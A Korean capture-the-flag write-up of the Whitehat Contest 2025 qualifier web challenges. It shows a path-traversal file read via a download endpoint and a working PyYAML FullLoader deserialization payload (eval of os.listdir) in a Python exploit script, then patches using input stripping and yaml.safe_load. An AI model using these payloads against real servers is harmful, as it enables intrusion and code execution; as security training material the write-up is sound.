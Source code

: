 ```yaml
---
title: Whitehat Contest Quals Write-Up
published: 2025-10-19
description: " "
tags: [CTF_Writeup, whitehatcontest]
category: CTF
draft: false
---
```


### 서론
예선에 웹 문제 좀만 더 내주면 좋겠다. 두 문제 풀고 할 거 없어서 하지도 못하는 포렌식 잡느라 힘들었다.  

예선에선 다 리얼월드 형태의 문제들이 출제 되었다. 한 가지 시나리오를 가지고 1에서 5번까지의 시나리오 문제를 풀어내야 했고
공격자 침투 경로 따라서 플래그 따주면 된다.
웹 요소가 포함 되어있는건 `시나리오 1-1 ~ 1-5` 문제였는데, 이것도 1-1, 1-2만 웹이고 나머지는 리버싱 암호학 등이다.

---

### Scenario 1-1
공격자가 서버의 취약점을 가지고 셸을 땄다고 한다. 우리도 똑같이 침투해서 서버내에 있는 플래그를 얻어야한다.

접속해보면 공공 데이터 공유 서비스가 있고 딱봐도 수상해보이는 download 기능이 있다.

`http://54.180.78.10/download?file=traffic.json`

LFI가 터지므로 여기서 적당히 게싱해서 아래 파일들을 읽어온다.

- /app/app.py
- /app/route/theme.py
- /app/route/file.py
- /app/Dockerfile
- /app/requirements.txt

중요한 파일 내용만 보자면

```
COPY . $APP_HOME
RUN FLAG_CONTENT=$(cat $APP_HOME/flag.txt) && \
    echo "$FLAG_CONTENT" > "/$FLAG_CONTENT" && \
    chmod 400 "/$FLAG_CONTENT" && \
    chown root:root "/$FLAG_CONTENT" && \
    rm $APP_HOME/flag.txt
```

플래그 자체가 파일명이 되어 루트 경로로 들어가 있다.

```
Flask==3.0.3
PyYAML==5.3.1
gunicorn==23.0.0
```

PyYAML 모듈이 5.3.1 구버전이라 RCE CVE가 존재한다.

```python
@theme_bp.post("/api/theme/preview")
def preview_theme():
    body = request.data.decode("utf-8", "ignore")
    if len(body) > 2**7:
        return jsonify({"error": "Body is too long"})
    try:
        parsed: Any = yaml.load(body, Loader=yaml.FullLoader)

        colors: Dict[str, str] = {}
        if isinstance(parsed, dict) and isinstance(parsed.get("colors"), dict):
            colors = {
                "primary": str(parsed["colors"].get("primary", "#336699")),
                "accent": str(parsed["colors"].get("accent", "#88aadd")),
            }
        write_theme_css(colors)
    except Exception:
        write_theme_css({"primary": "#336699", "accent": "#88aadd"})

    try:
        return jsonify({"ok": repr(parsed)})
    except Exception:
        return jsonify({"error": "Failed to parse YAML"})
```

`theme.py`에서 `load()`를 사용하고 있으므로 취약점을 트리거 할 수 있다.

```python
import yaml
import requests
import time
import base64

url = 'http://54.180.78.10/api/theme/preview'

def exploit():
  payload1 = f"""!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , ['__import__("os").listdir("/")']]]"""
  print(len(payload1))
  res = requests.post(url, data = payload1)
  print(res.json())

exploit()
```

이런식으로 루트 경로 읽어와주면 된다.

`whitehat2025{dc50ad05f7db236ea24f3c8258289ecf839412025e0b84b0619de24e77f3de93}`

---
### Scenario 1-2

이제 여기서 찾은 취약점들을 패치하면 플래그를 준다.

간단해서 딱히 설명할것도 없다.

#### LFI 패치
```py
@files_bp.get("/download")
def download_file():
    rel = request.args.get("file", "")
    full_path = os.path.join(BASE_DIR, rel)
```

```py
rel = request.args.get("file", "")
rel = rel.replace("..", "")
rel = rel.replace("/", "")
```

어차피 서버에서 요구하는건 파일명이므로 `/` `..` 다 제거시켜주면 된다.

#### RCE 패치
이건 그냥 모듈에서 `safe_load`라는걸 지원한다.

```py
parsed: Any = yaml.safe_load(body)
```

`whitehat2025{b8b18dae5b0aed7d538d030604fbaeb6e1ac1960de20e06e01daa21b9627f113}`
